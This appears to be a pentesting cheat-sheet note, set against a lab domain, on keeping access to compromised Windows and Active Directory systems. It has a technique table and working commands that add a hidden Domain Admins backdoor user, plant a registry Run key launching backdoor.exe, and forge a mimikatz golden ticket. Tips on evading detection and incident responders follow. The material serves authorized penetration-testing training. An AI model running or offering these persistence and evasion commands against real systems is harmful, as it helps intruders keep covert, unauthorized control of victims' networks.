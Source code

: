 ```yaml
---
dg-publish: true
---
```



_Goal: Maintain access to a compromised system across reboots, logoffs, or detection attempts._

---

### **Objectives**

- Maintain access after reboot or user logout
    
- Blend into the environment using native tools or low-noise methods
    
- Avoid detection by security products or incident responders
    

---

```mermaid
graph TD
    A[Privileged Access Achieved] --> B[Choose Persistence Method]
    B --> C[Create Local or Domain User]
    B --> D[Abuse Startup Tasks or Services]
    B --> E[Schedule Tasks or WMI Events]
    B --> F[Abuse GPO, ACLs, or RBCD]
    C --> G[Maintain Login Capability]
    D --> G
    E --> G
    F --> G
```

  

---

### **Techniques and Tools**

|**Technique**|**Tool/Command**|**Notes**|
|---|---|---|
|Add Local Admin User|net user <user> <pass> /addnet localgroup administrators <user> /add|Adds hidden admin account|
|Add Domain User|Add-DomainUser, Add-DomainGroupMember|Requires domain-level privileges|
|Scheduled Task Backdoor|schtasks /create, Register-ScheduledTask|Executes payload at intervals or login|
|WMI Event Subscription|PowerShell, Eventvwr, WMIExplorer|Triggers persistent payload on system events|
|Registry Run Key|reg add|Executes payload on login (HKCU\...\Run)|
|GPO Abuse|Modify existing GPO to run code or add users|Requires write access to GPO|
|ACL / DACL Abuse|Get-DomainObjectACL, Set-Acl|Add permissions to re-elevate later|
|Service Modification|Change binary path of existing service to malicious script|Common, especially for restartable services|
|Remote Scheduled Task or RDP|schtasks /s <target>, Enable-PSRemoting, RDP w/ creds|Maintain access through legitimate tools|
|Kerberos Ticket Injection|Rubeus, mimikatz kerberos::ptt|Golden/Silver tickets for long-term domain access|

  

---

### **Example: Creating a Domain Backdoor User**

```
net user pentest Temp123! /add
net group "Domain Admins" pentest /add /domain
```

  

---

### **Example: Add Persistence with Registry**

```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "C:\Users\Public\backdoor.exe"
```

  

---

### **Example: Golden Ticket with Mimikatz**

```
kerberos::golden /user:hacker /domain:INLANEFREIGHT.LOCAL /sid:<domain_sid> /krbtgt:<ntlm_hash> /ptt
```

  

---

### **Pro Tips**

- Use **legit system paths** for payloads (e.g., C:\ProgramData)
    
- Set **delayed or random execution** for tasks to reduce detection
    
- For high stealth: WMI, GPO abuse, or scheduled tasks with harmless names
    
- Persist via **misconfigured ACLs** and **backup RDP accounts** for re-entry
    
